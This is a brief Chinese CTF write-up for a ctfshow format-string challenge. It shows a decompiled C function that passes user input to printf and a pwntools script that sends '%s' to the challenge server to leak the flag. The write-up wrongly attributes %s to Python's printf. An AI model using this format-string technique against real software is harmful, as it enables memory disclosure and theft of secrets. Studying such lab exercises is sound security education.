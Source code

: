 # 挑战简介
可能上一题没太看懂？来看下基础吧

# 思路
简单的格式化字符串入门，来分析源码  
```
unsigned __int64 flagishere()
{
  FILE *stream; // [rsp+8h] [rbp-68h]
  char format; // [rsp+16h] [rbp-5Ah]
  char s; // [rsp+20h] [rbp-50h]
  unsigned __int64 v4; // [rsp+68h] [rbp-8h]

  v4 = __readfsqword(0x28u);
  stream = fopen("/ctfshow_flag", "r");
  if ( !stream )
  {
    puts("/ctfshow_flag: No such file or directory.");
    exit(0);
  }
  fgets(&s, 64, stream);
  printf("Enter your format string: ", 64LL);
  __isoc99_scanf("%9s", &format);
  printf("The flag is :");
  printf(&format, &s);
  return __readfsqword(0x28u) ^ v4;
}
```
思路并不复杂，首先将flag的数据存入s字符串，而后读取我们输入的数据，存入format字符串  

很明显，由**"printf(&format, &s);"**这一句漏洞就诞生了  

%s，是python的printf语句中会用到的一个基础语法，用处在于引入变量，其类型是string  

更明确了,只要输入%s即可引用s变量了  

```
from pwn import *
from LibcSearcher import *
#context(arch = "amd64",os = 'linux',log_level = 'debug')

context(arch = "i386",os = 'linux',log_level = 'debug')

#io = process("./pwn")

io = remote('pwn.challenge.ctf.show',28248)

elf = ELF('D:\edge 下载\pwn')

io.send('%s')
io.interactive()
```
